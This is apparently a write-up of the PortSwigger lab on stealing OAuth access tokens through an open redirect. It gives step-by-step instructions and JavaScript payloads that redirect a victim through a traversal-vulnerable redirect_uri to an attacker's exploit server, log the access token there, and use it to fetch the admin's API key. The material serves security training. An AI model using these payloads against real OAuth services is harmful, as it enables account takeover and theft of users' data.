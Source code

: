 # Stealing OAuth access tokens via an open redirect

## Description

[This lab](https://portswigger.net/web-security/oauth/lab-oauth-stealing-oauth-access-tokens-via-an-open-redirect) uses an `OAuth` service to allow users to log in with their social media account. Flawed validation by the `OAuth` service makes it possible for an attacker to leak access tokens to arbitrary pages on the client application. 

## Reproduction and proof of concept

1. While proxying traffic through Burp, click "My account" and complete the OAuth login process. Afterwards, you will be redirected back to the blog website.
2. Study the resulting requests and responses. Notice that the blog website makes an API call to the userinfo endpoint at ``/me`` and then uses the data it fetches to log the user in. Send the ``GET /me`` request to Burp Repeater.
3. Log out of your account and log back in again. From the proxy history, find the most recent`` GET /auth?client_id=[...]`` request and send it to Repeater.
4. In Repeater, experiment with the ``GET /auth?client_id=[...]`` request. Observe that you cannot supply an external domain as ``redirect_uri`` because it's being validated against a whitelist. However, you can append additional characters to the default value without encountering an error, including the ``/../`` directory traversal sequence.
5. Log out of your account on the blog website and turn on proxy interception in Burp.
6. In your browser, log in again and go to the intercepted ``GET /auth?client_id=[...]`` request in Burp Proxy.
7. Confirm that the ``redirect_uri`` parameter is in fact vulnerable to directory traversal by changing it to:

```text
https://lab-id.web-security-academy.net/oauth-callback/../post?postId=1
```

Forward any remaining requests and observe that you are eventually redirected to the first blog post. In your browser, notice that your access token is included in the URL as a fragment.
8. With the help of Burp, audit the other pages on the blog website. Identify the "Next post" option at the bottom of each blog post, which works by redirecting users to the path specified in a query parameter. Send the corresponding ``GET /post/next?path=[...]`` request to Repeater.
9. In Repeater, experiment with the ``path`` parameter. Notice that this is an open redirect. You can even supply an absolute URL to elicit a redirect to a completely different domain, for example, your exploit server.
10. Craft a malicious URL that combines these vulnerabilities. You need a URL that will initiate an OAuth flow with the ``redirect_uri`` pointing to the open redirect, which subsequently forwards the victim to your exploit server:

```text
https://YOUR-LAB-OAUTH-SERVER.web-security-academy.net/auth?client_id=YOUR-LAB-CLIENT-ID&redirect_uri=https://lab-id.web-security-academy.net/oauth-callback/../post/next?path=https://YOUR-EXPLOIT-SERVER-ID.web-security-academy.net/exploit&response_type=token&nonce=399721827&scope=openid%20profile%20email
```

11. Test that this URL works correctly by visiting it in your browser. You should be redirected to the exploit server's "Hello, world!" page, along with the access token in a URL fragment.
12. On the exploit server, create a suitable script at ``/exploit`` that will extract the fragment and output it somewhere. For example, the following script will leak it via the access log by redirecting users to the exploit server for a second time, with the access token as a query parameter instead:

```text
<script>
window.location = '/?'+document.location.hash.substr(1)
</script>
```

13. To test that everything is working correctly, store this exploit and visit your malicious URL again in your browser. Then, go to the exploit server access log. There should be a request for ``GET /?access_token=[...]``.
14. You now need to create an exploit that first forces the victim to visit your malicious URL and then executes the script you just tested to steal their access token. For example:

```text
<script>
    if (!document.location.hash) {
        window.location = 'https://YOUR-LAB-AUTH-SERVER.web-security-academy.net/auth?client_id=YOUR-LAB-CLIENT-ID&redirect_uri=https://lab-id.web-security-academy.net/oauth-callback/../post/next?path=https://YOUR-EXPLOIT-SERVER-ID.web-security-academy.net/exploit/&response_type=token&nonce=399721827&scope=openid%20profile%20email'
    } else {
        window.location = '/?'+document.location.hash.substr(1)
    }
</script>
```

15. To test that the exploit works, store it and then click "View exploit". The page should appear to refresh, but if you check the access log, you should see a new request for ``GET /?access_token=[...]``.
16. Deliver the exploit to the victim, then copy their access token from the log.
17. In Repeater, go to the ``GET /me`` request and replace the token in the ``Authorization: Bearer`` header with the one you just copied. Send the request. Observe that you have successfully made an API call to fetch the victim's data, including their API key.
18. Use the "Submit solution" button at the top of the lab page to submit the stolen key and solve the lab.

## Exploitability

An attacker will need to log in to `wiener:peter`; and then identify an open redirect on the blog website; use this to steal an access token for the admin user's account; use the access token to obtain the admin's API key; and submit the solution using the button provided in the lab banner. 
